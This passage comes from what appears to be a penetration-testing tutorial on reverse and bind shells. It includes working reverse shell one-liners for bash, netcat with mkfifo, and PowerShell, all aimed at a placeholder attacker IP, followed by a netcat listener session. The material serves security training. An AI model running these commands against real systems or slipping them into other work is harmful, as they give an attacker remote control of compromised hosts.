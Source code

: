 Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

```

```Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

```shell
nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

* * *

## Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.
